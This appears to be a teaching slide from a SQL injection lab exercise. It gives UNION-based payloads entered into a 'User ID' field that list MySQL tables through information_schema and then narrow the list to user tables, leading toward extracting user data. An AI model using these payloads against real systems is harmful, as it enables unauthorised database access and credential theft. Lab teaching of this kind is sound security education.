

# SQL Injection
Try the following command:
User ID:
1' OR 1=1 UNION SELECT null, table_name FROM information_schema.tables #
‘table_name FROM information_schema.tables’ is showing you all the information about other databases on the MySQL server
Limit it to relevant information about the users
1' OR 1=1 UNION SELECT null, table_name FROM information_schema.tables
      WHERE table_name LIKE ‘user%’ #

You should see the tables with the headers that begin with user
What do you think we can find in the users table?